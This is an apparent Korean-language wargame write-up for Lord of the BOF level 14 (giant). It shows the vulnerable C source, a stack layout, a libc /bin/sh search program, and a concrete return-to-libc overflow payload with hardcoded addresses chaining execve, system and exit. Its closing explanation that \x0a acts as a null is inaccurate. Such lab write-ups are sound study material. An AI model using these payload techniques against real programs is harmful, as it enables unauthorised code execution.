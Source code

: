 ```yaml
---
title:  "[LOB] level 14: bugbear >> giant "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-26 07:51:20

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 14

**bugbear / new divide**

giant.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147400871-67366aa0-103c-4ed6-bb39-7512af9aecbd.png)

지역변수를 선언하고 
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
        char buffer[40];
        FILE *fp;
        char *lib_addr, *execve_offset, *execve_addr;
        char *ret;
        
        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");

        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");

        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```
popen(): system함수처럼 명령어를 실행시키는 함수, 대신 system함수와 달리 명령어를 실행후 결과값 자체를 출력만 해주는 system함수와 달리 popen함수는 결과값 저장이 가능    
lbb: 지정한 프로그램의 라이브러리 의존성 확인  
grep: 문자열을 찾는 명령어  
awk: 패턴 탐색과 처리  
{print $4}: 4번째 필드 출력  
파이프라인: 결과값을 다음 input으로 넣어줌  
r : 명령어를 읽어들이는 타입  
ldd의 명령어를 사용해서 assasin의 libc의 주소를 가져오는 과정이다  

오브젝트파일의 심볼 정보를 확인할 수 있는 nm명령어를 이용해서 /libc/libc.so.6 파일에서 execve()함수의 offset을 알아온다  
nm명령을 사용하면 함수들의 주소가 아닌 offset으로 나온다, 그럼 execve함수의 정확한 주소를 알기 위해서 /lib/libc.so.6주소와 execve 함수의 offset이필요한다

낮은주소

*ret[4]  
*execve_addr[4]  
*execve_offset[4]  
*lib_addr[4]  
*fp[4]  
buffer[40]  
sfp[4]  
ret[4]  

높은주소

ret는 execve 함수를 사용해야한다

RTL을 하기위해 execve함수의 원형을 살펴보자  
execve함수는 파일을 현재 프로세스에 적재하여 새로운 기능을 하는 함수이다, 외부 함수를 실행할 수 있다는의미  
>int  execve  (const  char  \*filename, char *const argv [], char *const envp[]);

*filename : 프로그램에 적재할 파일 (새로 실행시킬 프로그램)  
argv[] : 실행할 프로그램에 전단하는 매개변수의 배열  
envp[] : 전달할 환경변수의 배열  

페이로드 구상도:  
>\`python -c 'print "A"*44'+(execve주소)+(system주소)+(exit주소)+/bin/sh주소

찾아야 할것은  
execve 주소  
system 주소  
exit 주소  
/bin/sh 주소  

execve,system,exit주소: 
![image](https://user-images.githubusercontent.com/69203345/147401998-2b049bf4-38c3-497a-8363-bc1ca2ba32e3.png)

/bin/sh주소:  
```c
#include <stdio.h>
#include <string.h>

int main(){
        long system = 0x40058ae0; //system함수의 시작 주소
        while (memcmp((void*)system, "/bin/sh\x00", 8)){
                system++;
        }
        printf("/bin/sh: %x\n", system);

        return 0;

}
```
![image](https://user-images.githubusercontent.com/69203345/147402019-34b56117-6b98-4a3d-aa1d-2a2db9ca09fd.png)

페이로드:  
>"\`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"+"\xe0\x91\x03\x40"+"\xf9\xbf\x0f\x40"'`"

![image](https://user-images.githubusercontent.com/69203345/147402091-187ad26e-aaed-47b0-860b-601573f56887.png)  
execve주소를 사용하라고 하는데 페이로드에있는 \x0a가 null로 인식해서 그렇다고 한다